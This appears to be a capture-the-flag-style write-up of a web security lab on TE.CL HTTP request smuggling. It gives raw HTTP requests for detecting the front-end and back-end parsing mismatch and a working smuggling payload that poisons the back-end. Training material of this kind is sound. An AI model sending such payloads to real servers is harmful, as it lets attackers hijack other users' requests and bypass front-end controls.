




# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
# Objective
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.
To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a `404 Not Found` response.

# Solution
## Analysis
###  Determining what the front-end is using
HTTP status code `400 Bad Request` idicates that front-end is using `Transfer-Encoding` header.
```
POSTT / HTTP/1.1
Host: 0a7200c00333d52981e4c03100c10081.web-security-academy.net
Cookie: session=afoPj8z4yk8WRhPlK8Z6go0b9na2zAVy
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

||
|:--:| 
| *Front-end is using TE* |

###  Determining what the back-end is using
`Time out` confirms `TE.CL` vulnerability. Front-end is using `Transfer-Encoding` header. Back-end is using `Content-Length` header.

```
POSTT / HTTP/1.1
Host: 0a7200c00333d52981e4c03100c10081.web-security-academy.net
Cookie: session=afoPj8z4yk8WRhPlK8Z6go0b9na2zAVy
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

||
|:--:| 
| *Front-end is using TE* |
| *Back-end is using CL* |

## Exploitation
First request poisoned the back-end. Part of the second request was added to the end of the previous request - based on the second `Content-Length` header. The `POST / HTTP/1.1` was ignored thanks to `x` parameter and second `Content-Length` value from payload.

```
POSTT / HTTP/1.1
Host: 0a7200c00333d52981e4c03100c10081.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

63
POST /smuggled HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```


||
|:--:| 
| *Payload* |
||
| *Payload with visible signs "\r" and "\n"* |
| *Request was smuggled* |
